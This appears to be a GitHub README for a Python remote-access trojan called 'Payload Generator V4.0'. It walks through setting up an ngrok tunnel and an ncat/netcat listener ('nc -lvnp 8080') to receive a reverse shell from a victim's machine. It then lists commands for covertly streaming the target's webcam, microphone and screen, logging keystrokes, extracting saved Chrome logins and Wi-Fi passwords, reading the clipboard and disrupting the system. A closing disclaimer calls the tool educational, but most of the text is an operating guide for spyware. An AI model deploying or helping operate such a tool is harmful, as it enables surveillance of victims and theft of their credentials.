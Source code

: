 ### **Documentation for Payload Generator V4.0 by PhantomCode**

#### **Purpose:**
The Payload Generator V4.0 is an advanced tool designed for remotely controlling a target’s machine using a reverse shell. It provides functionality for real-time webcam streaming, screen sharing, file management (upload/download), system manipulation (lock, shutdown, reboot), keylogging, and credential extraction (e.g., Google Chrome logins and Wi-Fi passwords). This version also includes integration with Ngrok for tunneling through NAT/firewalls and Ncat for TCP connections.

---

### **Setup Instructions**

#### **Requirements**

Before running the payload, ensure the following Python modules are installed on the attacker's machine:

```bash
pip install socket subprocess os time ctypes random pickle opencv-python numpy pyaudio pynput pywin32 threading struct pyautogui re json base64 pycryptodome
```

Install **pywin32** (for Windows-based targets) if necessary:

```bash
pip install pywin32
```

#### **Ngrok Setup:**
1. **Download Ngrok** from [ngrok.com](https://ngrok.com) and ensure it’s properly installed on your machine.
2. Run the following command to create a TCP tunnel on port 8080 (or another specified port):
   ```bash
   ngrok tcp 8080
   ```
   This will provide you with a TCP forwarding address, something like `tcp://0.tcp.ngrok.io:xxxxx`. Note the address and port number for the next steps.

#### **Ncat Setup:**
Use Ncat or Netcat to listen for incoming connections on the port being forwarded by Ngrok. Run the following command on your terminal:
```bash
ncat -lvnp 8080
```
or 
```bash
nc -lvnp 8080
```

#### **Configure and Run the Payload:**

1. Open the **Payload_generator_V-4.0.py** file and modify the following:
   - **Attacker IP**: The IP address from the Ngrok connection (`0.tcp.ngrok.io`).
   - **Attacker Port**: The port number provided by Ngrok (`xxxxx`).

2. After modifying these details, run the Python script to generate and execute the payload on the target machine:
   ```bash
   python Payload_generator_V-4.0.py
   ```

Once the payload is executed on the target, the reverse shell will establish a connection back to your Ncat listener.

---

### **Payload Commands**

This version of the payload allows the following commands to be executed on the target machine through the reverse shell. Each command initiates a specific action on the victim's system:

| **Command**              | **Description**                                                                 |
|--------------------------|---------------------------------------------------------------------------------|
| `webcam`                 | Starts streaming the target’s webcam feed to the attacker’s machine.              |
| `stop_webcam`            | Stops the webcam streaming.                                                       |
| `screenshare`            | Starts real-time screen sharing of the target’s display.                          |
| `stop_screenshare`       | Stops screen sharing.                                                             |
| `upload <filepath>`      | not done                                                                          |
| `download <filepath>`    | not done                                                                          |
| `lockscreen`             | Locks the target’s screen.                                                        |
| `shutdown`               | Shuts down the target’s machine.                                                  |
| `reboot`                 | Reboots the target’s machine.                                                     |
| `extract_google_logins`  | Extracts stored login credentials from Google Chrome.                             |
| `get_wifi_passwords`     | Extracts saved Wi-Fi passwords from the target machine.                           |
| `popups`                 | Creates random annoying pop-up windows on the target's screen.                    |
| `keylogs`                | Displays logged keystrokes from the keylogger running on the target machine.      |
| `start_keylogger`        | Starts a keylogger that records the target's keystrokes.                          |
| `stop_keylogger`         | Stops the keylogger.                                                              |
| `audio_real_time`        | Streams live audio from the target’s microphone to the attacker’s machine.        |
| `stop_audio`             | Stops the real-time audio streaming.                                              |
| `get_clipboard_content`  | Retrieves the current clipboard content from the target.                          |

---

### **Features and Functionality**

#### **1. Webcam and Screen Sharing**
- The **webcam** command starts streaming video from the target’s webcam in real-time, while **screenshare** starts streaming the target’s display.
- Use the **stop_webcam** and **stop_screenshare** commands to stop the streams.

#### **2. File Management (Upload/Download)**
- Not yet done

#### **3. System Actions**
- **lockscreen**: Locks the target's screen remotely.
- **shutdown** and **reboot** commands allow full control of the target system’s power state.
  
#### **4. Credential and Data Extraction**
- **extract_google_logins** retrieves all saved login credentials from Google Chrome.
- **get_wifi_passwords** collects stored Wi-Fi passwords from the target system.

#### **5. Pop-ups for Disruption**
- The **popups** command spawns random pop-up windows on the target’s machine, causing disruption and annoyance.

#### **6. Keylogging**
- The **start_keylogger** command begins capturing all keystrokes from the target’s keyboard. 
- **keylogs** retrieves the stored keystrokes, while **stop_keylogger** stops the logging process.

#### **7. Audio Capture**
- The **audio_real_time** command streams live audio from the target's microphone to the attacker’s system, while **stop_audio** stops the streaming.

#### **8. Clipboard Content**
- The **get_clipboard_content** command fetches whatever is currently in the clipboard of the target machine.

---

### **GUI Setup for Viewing Webcam and Screen Stream**

1. Run the **Main.py** file after starting the reverse shell to open the GUI.
2. This GUI allows real-time viewing of webcam streams and screen sharing data.
3. Use the respective commands in the reverse shell to start and stop the streams.

---

### **Troubleshooting**

1. **Connection Issues**:
   - If Ngrok disconnects, rerun the `ngrok tcp` command and restart the payload.
   - Ensure Ncat is listening on the same port forwarded by Ngrok.
   
2. **Failed Commands**:
   - Double-check that all Python dependencies are installed.
   - Ensure the correct file paths are used for upload/download actions.

3. **Keylogger Not Working**:
   - Make sure that `pynput` is properly installed and functioning on both the attacker and target systems.

---

### **Author and Legal Information**

- **Author**: PhantomCode  
- **Version**: 4.0  
- **Project**: Reverse Shell Payload Generator

#### **Legal Disclaimer**:
This tool is intended for educational purposes and authorized testing only. The author is not responsible for any misuse or damage caused by this tool. Unauthorized access to computer systems or networks is illegal and punishable by law. Always obtain explicit permission from the system owner before running tests or executing this payload.

